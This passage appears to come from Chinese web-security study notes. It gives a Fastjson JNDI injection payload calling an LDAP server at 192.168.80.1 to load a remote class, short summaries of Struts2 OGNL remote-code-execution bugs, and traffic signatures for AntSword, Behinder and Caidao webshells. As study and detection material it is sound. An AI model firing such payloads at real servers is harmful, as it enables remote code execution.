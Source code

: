 1.2.66：{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}

### 22.Struts2

原理：在处理action的时候，调用底层的getter/setter来处理http的参数，将每一个http的参数声明为一个ONGL，通过构造恶意代码被ONGL处理后，只要有权限就可以执行任何DOS命令

判断：请求以action结尾

029：OGNL表达式来访问ActionContext中的对象数据

032：启用动态方法调用

045：基于Jakarta插件的文件上传功能时，有可能存在远程命令执行

046：设置Content-Disposition的filename字段或者设置Content-Length超过2G

048：漏洞成因是当ActionMessage接收客户可控的参数数据时，由于后续数据拼接传递后处理不当导致任意代码执行

052：使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，可被远程攻击。

053：Freemarker解析一次之后变成离开一个表达式，被OGNL解析第二次

059：标签属性二次解析

062：针对059绕过加强OGNL表达式沙盒

devMode：devMode模式开启

### 23.Webshell

流量特征：

- 蚁剑

  可以对流量进行加密、混淆。但是有些关键代码没有被加密

  php ini_set、set_time_limit

  asp OnError ResumeNext，response

  蚁剑混淆加密后还有一个比较明显的特征，即为参数名大多以“_0x…=”这种形式

  每个请求体都存在@ini_set(“display_errors”, “0”);@set_time_limit(0)开头。并且存在base64等字符

  响应包的结果返回格式为 随机数 结果 随机数

- 冰蝎

  1. content-type
  2. Accept&Cache-Control
  3. 内置16个ua头
  4. content-length请求长度

- 菜刀

  2014 伪造UA头

  函数分割 base加密

- 哥斯拉
